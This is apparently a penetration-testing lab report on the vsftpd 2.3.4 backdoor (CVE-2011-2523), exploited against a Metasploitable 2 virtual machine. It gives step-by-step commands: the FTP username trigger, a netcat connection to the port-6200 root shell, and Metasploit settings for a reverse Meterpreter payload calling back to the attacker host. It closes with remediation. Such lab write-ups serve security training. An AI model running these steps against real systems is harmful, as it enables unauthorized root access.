






# VULN-001 — vsftpd 2.3.4 Backdoor

**Confirmed · Critical (CVSS 9.8) · CVE-2011-2523**

[← Project home](../../../README.md) · [Finding index](../../../FINDINGS-INDEX.md#net-001) · [Evidence folder](screenshots/)

## 1. Finding summary

| Item | Details |
| --- | --- |
| Finding / catalog ID | `VULN-001` / `NET-001` |
| Vulnerability | Backdoored vsftpd 2.3.4 source distribution |
| Classification | `BD` Backdoor · `RCE` Remote Code Execution |
| CVE / CWE | [CVE-2011-2523](https://nvd.nist.gov/vuln/detail/CVE-2011-2523) · [CWE-78](https://cwe.mitre.org/data/definitions/78.html) |
| Severity | **Critical — CVSS v3.1: 9.8** (published NVD score) |
| Attacker / target | Kali `192.168.95.128` → Metasploitable 2 `192.168.95.131` |
| Affected ports | FTP `21/tcp` · backdoor shell `6200/tcp` |
| Date | **28 November 2026** |
| Manual testing | **Confirmed — root shell** |
| Metasploit testing | **Confirmed — root Meterpreter session** |

**Result:** A crafted FTP username triggered the backdoor. The target accepted unauthenticated commands as `root`. Both manual and Metasploit testing independently confirmed successful exploitation.

## 2. Background and history

**vsftpd** (Very Secure FTP Daemon) is a Linux/Unix FTP server. In **2011**, attackers compromised a distribution of the vsftpd 2.3.4 source archive and inserted a backdoor. The project author disclosed the incident on **3 July 2011**. This is an example of a **software supply-chain compromise**: not every legitimate vsftpd 2.3.4 build contained the backdoor.

In the affected build, an FTP username ending with ` :)` (the characters `:)`) can activate a shell on TCP port **6200**. The lab demonstrated root-level access without valid FTP credentials. See [NVD](https://nvd.nist.gov/vuln/detail/CVE-2011-2523) and [original disclosure](https://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html).

## 3. Reconnaissance and enumeration

### 3.1 FTP discovery

**Kali command:**
```bash
sudo nmap -sV -sC -p 21 192.168.95.131
```

**Observed:** `21/tcp open ftp vsftpd 2.3.4`; Nmap also reported anonymous FTP login allowed (`230`). See [scan transcript](scans/01-FTP-Service-Discovery.txt).



### 3.2 Check the backdoor port before exploitation

```bash
nc -nvz 192.168.95.131 6200
```

**Observed:** `Connection refused` — the backdoor listener was not available at this point. See [baseline output](scans/02-Pre-Exploit-Port-6200-Check.txt).


### 3.3 Anonymous FTP access

```text
ftp -inv 192.168.95.131
ftp> user anonymous anonymous@example.com
230 Login successful.
ftp> pwd
Remote directory: /
ftp> ls
226 Directory send OK.
```

**Observed:** Anonymous authentication succeeded; the directory listing completed with no file names shown. This is separate from the backdoor. See [FTP transcript](scans/03-Anonymous-FTP-Enumeration.txt).


## 4. Manual exploitation — confirmed

**Method:** Telnet FTP trigger followed by Netcat connection to the backdoor.

**Terminal 1 — send the FTP trigger:**
```bash
telnet 192.168.95.131 21
```
```text
USER lab:)
331 Please specify the password.
PASS test
```



**Terminal 2 — connect to the shell:**
```bash
nc -nv 192.168.95.131 6200
```
```text
(UNKNOWN) [192.168.95.131] 6200 (?) open
id
uid=0(root) gid=0(root)
whoami
root
```


**Conclusion:** TCP 6200 was closed before the trigger and opened afterward. The `id` and `whoami` results prove **remote root command execution**. Full observed output: [manual test transcript](scans/04-Manual-vsftpd-Root-Shell.txt).

<details>
<summary>Other manual techniques (research only — not tested on this VM)</summary>

The same FTP trigger can be sent through Netcat, Socat, or Python sockets. A local [Python PoC](scripts/manual_vsftpd_backdoor.py) is available but has **not** been executed as part of this report. Nmap also provides an intrusive [ftp-vsftpd-backdoor NSE script](https://nmap.org/nsedoc/scripts/ftp-vsftpd-backdoor.html). These are **alternative methods for this same CVE**, not additional confirmed exploits.

</details>

## 5. Metasploit exploitation — confirmed

**Module:** `exploit/unix/ftp/vsftpd_234_backdoor`  
**Target:** `0 — Linux/Unix Command` (the only target shown by the installed module)  
**Payload:** `cmd/linux/http/x86/meterpreter_reverse_tcp`

### 5.1 Module selection and options

```text
msfconsole -q
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.95.131
set RPORT 21
show targets
show options
```

<details>
<summary>View original module and initial options screenshots</summary>





</details>

### 5.2 Reverse listener configuration

```text
set LHOST 192.168.95.128
set LPORT 4444
show options
run
```

| Option | Value |
| --- | --- |
| `RHOSTS` / `RPORT` | `192.168.95.131` / `21` |
| `LHOST` / `LPORT` | `192.168.95.128` / `4444` |

<details>
<summary>View original listener and final configuration screenshots</summary>





</details>

### 5.3 Session and root verification

**Actual observed output:**
```text
[+] Backdoor has been spawned!
[*] Meterpreter session 1 opened
    (192.168.95.128:4444 -> 192.168.95.131:40449)
    at 2026-11-28 10:59:54 +0530

meterpreter > getuid
Server username: root

meterpreter > sysinfo
Computer     : metasploitable.localdomain
OS           : Ubuntu 8.04 (Linux 2.6.24-16-server)
Architecture : i686
Meterpreter  : x86/linux
```

The screenshot also shows `pwd` returning `/` and a root-directory listing.


**Conclusion:** Metasploit independently triggered the vulnerable service and created a **root Meterpreter session**. The selected fetch-based Meterpreter payload succeeded in this specific lab.

## 6. Security impact and remediation

| Security property | Impact |
| --- | --- |
| Confidentiality | Root can read files and sensitive data |
| Integrity | Root can change system settings, software, or data |
| Availability | Root can stop services or disrupt the operating system |
| Access control | Remote root execution without valid FTP authentication |

**Observed impact:** Root-level command execution and directory enumeration. **Not performed:** credential extraction, persistence, data modification, destructive commands, or lateral movement.

**Recommended remediation:** Remove the compromised software, reinstall a verified trusted build, investigate possible compromise, restrict exposed FTP services, and use a maintained encrypted alternative such as SFTP. In this intentionally vulnerable lab, **restore the VM snapshot** after testing.

## 7. Evidence and references

All ten tester-supplied screenshots are embedded above in their relevant stages. Raw or transcribed terminal outputs are saved in [`scans/`](scans/) and the image files in [`screenshots/`](screenshots/).

**References:** [NVD CVE-2011-2523](https://nvd.nist.gov/vuln/detail/CVE-2011-2523) · [Rapid7 Metasploitable 2 guide](https://docs.rapid7.com/metasploit/metasploitable-2-exploitability-guide/) · [Metasploit module](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/unix/ftp/vsftpd_234_backdoor.rb) · [Nmap NSE documentation](https://nmap.org/nsedoc/scripts/ftp-vsftpd-backdoor.html)

---

**Assessment verdict: CONFIRMED — Critical.** Manual and Metasploit exploitation both demonstrated root-level remote code execution on the authorized isolated target.
